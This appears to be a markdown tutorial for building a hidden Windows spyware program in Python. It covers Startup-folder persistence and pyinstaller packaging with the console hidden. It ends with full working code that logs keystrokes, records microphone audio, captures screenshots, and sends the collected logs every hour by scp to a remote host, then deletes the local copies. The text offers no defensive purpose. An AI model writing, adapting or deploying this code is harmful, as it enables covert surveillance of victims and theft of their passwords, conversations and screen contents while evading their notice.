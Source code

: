 # Auto-run

This will discuss windows executables

you can do windows+R the type shell:startup

It will open C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

Anything in this folder will run at boot



# Create simple python exe

Real malware isn't written in python lol but let's run with this

```
pip install pyinstaller
pyinstaller yourfile.py -F --onefile
```

# Make exe hidden

There will be a brief cmd popup whenever your script runs, very suspicious, let's remove it. 

There are many tutorials and many different ways and will probably change in future windows versions. 

A simple one in this case is add `--noconsole` to pyinstaller. 

# Recording audio

```
pip install pyaudio
```


```python
import pyaudio
import wave

def record_audio(seconds, filename):
    p = pyaudio.PyAudio() 
    fs = 44100
    chunk = 1024
    stream = p.open(format=pyaudio.paInt16,channels=2,rate=fs,frames_per_buffer=chunk,input=True)
    frames = [] 
    for _ in range(0, int(fs / chunk * seconds)):
        data = stream.read(chunk)
        frames.append(data)
    stream.stop_stream()
    stream.close()
    p.terminate()
    wf = wave.open(filename, 'wb')
    wf.setnchannels(2)
    wf.setsampwidth(p.get_sample_size(pyaudio.paInt16))
    wf.setframerate(fs)
    wf.writeframes(b''.join(frames))
    wf.close()

record_audio(seconds=10, filename="output.wav")
```


<br>

# Final

```python
# scp ... connor@192.168.1.114:/home/connor/Documents/...

import threading
from pynput.keyboard import Key, Listener
import os
import pyaudio
import wave
from time import sleep, time
from PIL import ImageGrab

count = 0
keys = []

user = os.environ.get("USERNAME")
basedir = f"C:\\Users\\{user}\\Documents\\system\\log"

def cleanup():
    os.system(f"del /Q {basedir}\\audio")
    os.system(f"del /Q {basedir}\\ss")

for d in [basedir, f"{basedir}/audio", f"{basedir}/ss"]:
    if not os.path.exists(d):
        os.makedirs(d)

def handle_keys():
    def on_press(key):
        global keys, count
        keys.append(key)
        count += 1
        if (count >= 1):
            count = 0
            write_file(keys)
            keys = []

    def write_file(keys):
        with open (f"{basedir}/log.txt", "a") as f:
            for key in keys:
                k = str(key).replace("'","")
                if k.find("space") > 0:
                    f.write("\n")
                elif k.find("Key") == -1:
                    f.write(k)

    def on_release(key):
        return True #never release

    with Listener(on_press = on_press, on_release = on_release) as listener:
        listener.join()


def record_audio(seconds, filename):
    p = pyaudio.PyAudio() 
    fs = 44100
    chunk = 1024
    stream = p.open(format=pyaudio.paInt16,channels=2,rate=fs,frames_per_buffer=chunk,input=True)
    frames = [] 
    for i in range(0, int(fs / chunk * seconds)):
        data = stream.read(chunk)
        frames.append(data)
    stream.stop_stream()
    stream.close()
    p.terminate()
    wf = wave.open(filename, 'wb')
    wf.setnchannels(2)
    wf.setsampwidth(p.get_sample_size(pyaudio.paInt16))
    wf.setframerate(fs)
    wf.writeframes(b''.join(frames))
    wf.close()

def handle_audio():
    while True:
        fname = f"{basedir}/audio/{int(time())}"
        record_audio(seconds=3500, filename=fname)

def handle_ss():
    while True:
        snapshot = ImageGrab.grab()
        save_path = f"{basedir}/ss/{int(time())}.jpg"
        snapshot.save(save_path)
        sleep(20*60)


def handle_send():
    while True:
        sleep(3600)
        success = os.system(f"scp -r {basedir} connor@192.168.1.114:/home/connor/Documents/logs > NUL 2> NUL")
        if success == 0:
            cleanup() # delete after sending
          
if __name__ =="__main__":
    t1 = threading.Thread(target=handle_keys)
    t2 = threading.Thread(target=handle_audio)
    t3 = threading.Thread(target=handle_send)
    t4 = threading.Thread(target=handle_ss)

    t1.start()
    t2.start()
    t3.start()
    t4.start()

    t1.join()
    t2.join()
    t3.join()
    t4.join()
```
```
